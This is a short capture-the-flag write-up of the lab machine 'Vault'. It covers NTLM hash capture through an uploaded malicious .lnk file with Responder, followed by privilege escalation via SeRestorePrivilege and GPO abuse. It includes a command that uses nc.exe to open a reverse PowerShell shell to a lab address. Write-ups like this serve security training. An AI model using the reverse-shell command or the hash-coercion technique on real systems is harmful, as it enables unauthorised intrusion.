# Vault — Proving Grounds (write-up)

**Difficulty:** Intermediate
**Box:** Vault (Proving Grounds)
**Author:** dkrxhn
**Date:** 2025-05-08

---

## TL;DR

### Enumeration revealed a file upload point. Uploaded a malicious `.lnk` file to coerce authentication via Responder, cracked the hash. Escalation attempted via SeRestorePrivilege (unstable) and ultimately through GPO abuse.
---
## Target info

- Services discovered via nmap
---
## Enumeration











---
## Foothold

Started Responder and uploaded a malicious `.lnk` file (renamed `test.lnk` to `doc.lnk`):

```bash
sudo responder -I tun0
```







Cracked the hash and authenticated.

---
## Privesc



BackupPrivilege path failed because the administrator user does not have RDP access.

SeRestorePrivilege path:

```
.\SeRestoreAbuse.exe "C:\temp\nc.exe 192.168.45.247 4444 -e powershell.exe"
```



Works but then crashes -- unstable.

GPO abuse path:



---
## Lessons & takeaways

- Malicious `.lnk` files on writable shares can coerce NTLMv2 authentication via Responder
- SeRestorePrivilege can be exploited but may be unstable depending on the binary
- GPO abuse is a reliable alternative when other privilege escalation paths are unreliable
---
